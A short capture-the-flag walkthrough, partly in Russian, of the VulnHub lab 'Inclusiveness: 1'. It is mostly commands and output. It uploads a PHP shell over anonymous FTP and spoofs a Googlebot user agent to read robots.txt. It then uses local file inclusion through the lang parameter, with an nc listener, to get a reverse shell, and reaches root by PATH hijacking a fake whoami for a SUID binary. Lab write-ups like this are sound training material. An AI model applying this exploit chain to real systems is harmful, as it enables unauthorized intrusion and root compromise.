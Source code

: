 https://www.vulnhub.com/entry/inclusiveness-1,422/

enumeration

    nmap -A -sS -v -T4 -p- 192.168.225.151 --min-rate=5000


        Discovered open port 21/tcp on 192.168.225.151
            anon allow
        Discovered open port 22/tcp on 192.168.225.151
            ssh
        Discovered open port 80/tcp on 192.168.225.151
            http

21-port

ftp 192.168.225.151

    ls -al
        pub
    cd pub
    put shell.php

80-port

gobuster -w /root/Downloads/common.txt -x zip,php,txt,html,bac,mp4,docx,doc,sh,bak -e -u dir 192.168.225.151

    ...
    http://192.168.225.151/robots.txt
    ...

curl http://192.168.225.151/robots.txt

    You are not a search engine! You can't read my robots.txt!

перехватим запрос в burp и изменим запрос

    GET /robots.txt HTTP/1.1
    Host: 192.168.225.151
    User-Agent:Googlebot
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,_/_;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1

и вот ответ

    User-agent: \*
    Disallow: /secret_information/

curl http://192.168.225.151/secret_information/

    \<a href='?lang=en.php'>english
    \<a href='?lang=es.php'>spanish

думаю это будущий lfi

rlwrap nc -nlvp 1234  
curl http://192.168.225.151/secret_information/?lang=/var/ftp/pub/shell.php  
<img src=img/inclusive_1_1.jpg width='500'>

22-port_www-data

cd /home/tom  
cat rootshell.c

    FILE* f = popen("whoami", "r");
    ...
    fgets(user, 80, f);
    if (strncmp(user, "tom", 3) == 0) {
    ...
    execlp("sh", "sh", (char *) 0);
    }

думаю здесь для повышения привиллегий можно воспользоваться PATH Variable

echo 'echo tom'>/tmp/whoami  
chmod 777 /tmp/whoami  
export PATH=/tmp:$PATH

4.

./rootshell  
<img src=img/inclusive_1_2.jpg width='500'>

cat /root/flag.txt  
<img src=img/inclusive_1_3.jpg width='200'>
